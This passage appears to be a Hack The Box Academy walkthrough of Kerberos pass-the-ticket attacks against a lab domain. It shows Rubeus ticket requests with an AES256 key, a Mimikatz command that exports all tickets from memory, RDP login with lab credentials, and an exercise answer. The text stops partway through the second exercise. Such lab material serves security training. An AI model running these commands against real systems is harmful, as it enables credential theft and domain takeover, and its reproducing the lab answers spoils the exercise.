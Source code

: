 #### Request TGT in New Process
```cmd
# From new cmd window, request and import TGT
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

# Launch PowerShell and connect
powershell
Enter-PSSession -ComputerName DC01

[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
```

---

## 🎯 HTB Academy Lab Exercises

### Lab Environment
- **Target**: 10.129.164.157 (ACADEMY-PWATTACKS-LM-MS01)
- **Credentials**: Administrator : AnotherC0mpl3xP4$$
- **Domain**: inlanefreight.htb
- **DC**: DC01.inlanefreight.htb

### Exercise 1: Ticket Collection
**Question**: "Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?"

```cmd
# RDP to target machine  
xfreerdp /v:10.129.164.157 /u:Administrator /p:'AnotherC0mpl3xP4$$'

# One-line Mimikatz export command
C:\tools\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit

# List all .kirbi files
dir

# Expected .kirbi files (example):
[0;3e4]-2-0-60a10000-MS01$@krbtgt-INLANEFREIGHT.HTB.kirbi    (computer account)
[0;3e4]-2-1-40e10000-MS01$@krbtgt-INLANEFREIGHT.HTB.kirbi    (computer account)
[0;45828]-2-0-40e10000-julio@krbtgt-INLANEFREIGHT.HTB.kirbi  (USER TGT)
[0;461ec]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi   (USER TGT)
[0;46eb9]-2-0-40e10000-david@krbtgt-INLANEFREIGHT.HTB.kirbi  (USER TGT)

# Count only USER TGTs (exclude computer accounts ending with $)
```

**Answer**: **3** user TGTs (julio, john, david)

### Exercise 2: John's Share Access
**Question**: "Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \\DC01.inlanefreight.htb\john"


[DC01]: PS C:\Users\john\Documents> cat C:\john\john.txt